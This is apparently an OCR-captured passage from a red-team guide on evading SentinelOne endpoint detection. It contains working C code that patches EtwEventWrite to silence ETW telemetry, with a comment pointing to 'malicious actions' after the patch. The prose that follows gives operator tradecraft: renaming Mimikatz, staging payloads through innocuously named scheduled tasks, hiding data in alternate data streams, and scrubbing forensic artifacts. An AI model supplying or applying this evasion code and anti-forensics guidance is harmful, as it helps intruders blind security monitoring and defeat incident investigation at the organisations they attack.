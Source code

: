 ```
// C code to disable ETW events in the current process (x64)
#include <windows.h>
#include <stdio.h>

int main(){
    // Get address of EtwEventWrite in ntdll
    void *etwAddr = GetProcAddress(GetModuleHandleA("ntdll.dll"), "EtwEventWrite");
    if(etwAddr == NULL) return 1;
    // Overwrite first byte with a ret (0xC3) to stub it out
    DWORD oldProtect;
    VirtualProtect(etwAddr, 1, PAGE_EXECUTE_READWRITE, &oldProtect);
    *(BYTE*)etwAddr = 0xC3;
    VirtualProtect(etwAddr, 1, oldProtect, &oldProtect);
    printf("ETW patch applied.\n");
    // Now any ETW events from this process are blocked.
    // ... proceed with malicious actions ...
    return 0;
}
```
Explanation: This code disables ETW tracing for the current process by patching the function that writes events. If SentinelOne relies on ETW for certain telemetry, this prevents those events from ever being recorded. Combined with unhooking, this makes the process much “quieter” from the EDR’s perspective.

•	Avoiding Query Triggers: Threat hunters often use sweeping queries (via SentinelOne’s Deep Visibility or a SIEM) to find suspicious indicators – e.g. searching for processes with unusual parent-child relationships or looking for specific strings in command-line arguments. As a red team operator, anticipate these and avoid obvious indicators. For instance, don’t run powershell.exe -Enc <base64> (the well-known encoded command flag); instead, use more subtle PowerShell usage or embed commands in scripts that look innocuous. Avoid common hacker tool names in your binaries or scripts – e.g., rename your Mimikatz binary to something mundane like sysdiag.dll. 

Use staged execution to hide intent: instead of one big one-liner that performs multiple malicious actions (which, if caught in logs, reveals the whole plot), break your steps into multiple smaller actions that each appear harmless (e.g. first create a scheduled task with a benign name, later that task triggers your payload). Also encrypt or encode payloads and configs so that even if they are recorded in memory or disk, an analyst can’t easily identify them. Some attackers even hook or patch EDR user-land query interfaces – for example, if the SentinelOne agent exposes a local CLI or API to query its data, an attacker could attempt to tamper with that. (This is less common, but in principle if you compromise an endpoint, you could alter the data that the agent reports or queries locally, for instance feeding it bogus info or clearing its local event buffer.)

•	Anti-Forensics on Filesystem: If you had to drop any tools or payloads to disk, ensure you delete them securely after use. Consider using in-memory techniques for everything (there are frameworks to reflectively load EXEs/DLLs into memory from a script). Where files must exist (e.g. a dump file or data to exfil), store them in locations that blue teamers are less likely to check (not in C:\Temp\ with a weird name, but perhaps in C:\ProgramData\Microsoft\Windows\ under a plausible folder name). Alternatively, encrypt and hide these artifacts: for example, stash data in NTFS Alternate Data Streams of a legitimate file, or use steganography (hiding data within images if you can drop an image file). If time permits, manually edit forensic artifacts: change file names, remove your user account from file ACLs, etc., to confuse the picture. Remember that SentinelOne’s agent might take snapshots of certain behaviors (its “Storyline” feature recording sequences of events). You cannot change what was already sent to the console, but you can try to ensure nothing incriminating remains on the endpoint for an investigator to find in a live response or post-incident forensic review.
